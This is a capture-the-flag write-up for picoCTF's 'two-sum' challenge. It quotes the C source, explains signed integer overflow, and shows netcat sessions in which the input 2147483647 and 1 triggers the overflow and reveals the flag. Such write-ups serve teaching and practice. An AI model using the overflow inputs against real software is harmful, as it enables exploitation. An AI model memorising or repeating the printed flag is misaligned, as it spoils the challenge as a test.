 # two-sum

* Author: Mubarak Mikail
* Location: https://play.picoctf.org/events/72/challenges/challenge/382
* Tags: Binary Exploitation, C, make

## Problem

> __Due to Instance Launching maintenance, you may access the challenge download file to work offline:__ What two positive numbers can make this possible: ``n1 > n1 + n2 OR n2 > n1 + n2``? [Source](https://artifacts.picoctf.net/c/454/flag.c). Can you solve this? Additional details will be available after launching your challenge instance.

## Solution

I began by launching the instance associated with this challenge (Figure 1) and was presented with a means to communicate with said instance --- ``nc saturn.picoctf.net 49205`` --- and two hints:

1. Integer overflow.
2. Not necessarily a math problem.

There are two approaches that I can use to go about exploiting this bug: exploiting the integer overflow bug, or trying to find a solution to the expression. I will start with the integer overflow method first, and the maybe exploit it through a maths problem. I downloaded the ``flag.c`` file and began looking for integer overflow bugs. I started by "winging it" a little:

```
dna@deniers:~/two-sum$ nc saturn.picoctf.net 55064
n1 > n1 + n2 OR n2 > n1 + n2 
What two positive numbers can make this possible: 
2 2
You entered 2 and 2
No overflow
222222222222222222222222222 2
dna@deniers:~/two-sum$ nc saturn.picoctf.net 55064

```

I did some research into integer overflows and found a couple of explainations. [1][2] My technique was to find what kind of integers were being accepted by the vulnerable appplication through its source code. The following is the relevant bits of the ``main()`` function:

```c++
int main() {
    int num1, num2, sum;
    FILE *flag;
    char c;

    printf("n1 > n1 + n2 OR n2 > n1 + n2 \n");
    fflush(stdout);
    printf("What two positive numbers can make this possible: \n");
    fflush(stdout);
    
    if (scanf("%d", &num1) && scanf("%d", &num2)) {
        printf("You entered %d and %d\n", num1, num2);
        fflush(stdout);
        sum = num1 + num2;
        if (addIntOvf(sum, num1, num2) == 0) {
            printf("No overflow\n");
            fflush(stdout);
            exit(0);
        } else if (addIntOvf(sum, num1, num2) == -1) {
            printf("You have an integer overflow\n");
            fflush(stdout);
        }

[... snip ...]
```

The sum of the inputs are sent to a function called ``addIntOvf()``:

```c++ 
static int addIntOvf(int result, int a, int b) {
    result = a + b;
    if(a > 0 && b > 0 && result < 0)
        return -1;
    if(a < 0 && b < 0 && result > 0)
        return -1;
    return 0;
}
```

The maximum of the ``signed int`` variable is ``2147483647``, and an integer overflow with signed integers can be exploited with really basic arithmetic. I want to create a situation where the first input is greater than the second input _plus_ the first input. This initially seems impossible to do through mathematics, but can be done through a rather clever technique shown below:

```
dna@deniers:~/two-sum$ nc saturn.picoctf.net 55064
n1 > n1 + n2 OR n2 > n1 + n2 
What two positive numbers can make this possible: 
2147483647 1
You entered 2147483647 and 1
You have an integer overflow
YOUR FLAG IS: picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_f6ed8057}

^C
dna@deniers:~/two-sum$ 
```

## References

1. https://www.acunetix.com/blog/web-security-zone/what-is-integer-overflow/
2. https://users.cs.utah.edu/~regehr/papers/overflow12.pdf
3. https://learn.microsoft.com/en-us/cpp/c-language/cpp-integer-limits
